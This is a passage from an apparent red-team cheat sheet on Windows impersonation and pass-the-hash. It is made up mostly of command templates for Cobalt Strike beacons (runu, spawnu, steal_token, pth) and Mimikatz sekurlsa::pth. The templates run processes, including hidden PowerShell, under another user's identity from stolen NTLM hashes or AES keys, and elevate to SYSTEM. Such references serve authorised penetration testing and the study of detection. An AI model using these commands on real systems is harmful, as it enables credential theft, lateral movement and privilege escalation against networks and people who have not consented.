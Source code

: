 Both commands can be used to impersonate any connected user on the compromised
system, without the need of knowing their password or `NTLM` hash, as well as
elevate to `NT AUTHORITY\SYSTEM`.  

```
# beacon> ps

beacon> runu <PID> <COMMAND> <COMMAND_ARGS>

beacon> spawnu <PID> <LISTENER>
```

###### Mimikatz Pass-The-Hash

Require elevated privileges on the system.

The Pass-The-Hash module of `mimikatz` can be used to locally run a process
under another user identity using its `NTLM` hash.

```
# Default to /run:cmd.exe.
# Command can be any binary such as powershell.exe or mmc.exe for example.
# Specifying arguments is supported as well.

sekurlsa::pth /domain:<. | DOMAIN_FQDN> /user:<USERNAME> /ntlm:<HASH_NTLM> /run:"<COMMAND>"
sekurlsa::pth /domain:<. | DOMAIN_FQDN> /user:<USERNAME> [/aes128:<USER_AES128_KEY> | /aes256:<USER_AES256_KEY>] /run:"<COMMAND>"
```

###### Cobalt Strike (using Mimikatz) Pass-The-Hash

Require elevated privileges on the system.

On `Cobalt Strike`, the `mimikatz` / and `steal_token` beacon commands can be
used to start a process under the specified user identity, using its `NTLM`
hash, and steal then impersonate the newly created process token.

The `pth` beacon command will wrap the `mimikatz` Pass-the-hash command and,
similarly to the `make_token` beacon command, replace the `Logon Session` in
the current beacon Windows `Access Token`, in order to access resources over
the network using the provided user identity.

Any token change can be reverted using the beacon command `rev2self`.

```
# Both local and over the network impersonation
beacon> mimikatz sekurlsa::pth /domain:<. | DOMAIN_FQDN> /user:<USERNAME> /ntlm:<NT_HASH> /run:"powershell -w hidden"
beacon> mimikatz sekurlsa::pth /domain:<. | DOMAIN_FQDN> /user:<USERNAME> [/aes128:<USER_AES128_KEY> | /aes256:<USER_AES256_KEY>] /run:"powershell -w hidden"
  [...]
  PID <PID>

beacon> steal_token <PID>

# Over the network ("/NetOnly") impersonation
pth <. | DOMAIN>\<USERNAME> <NT_HASH>
```
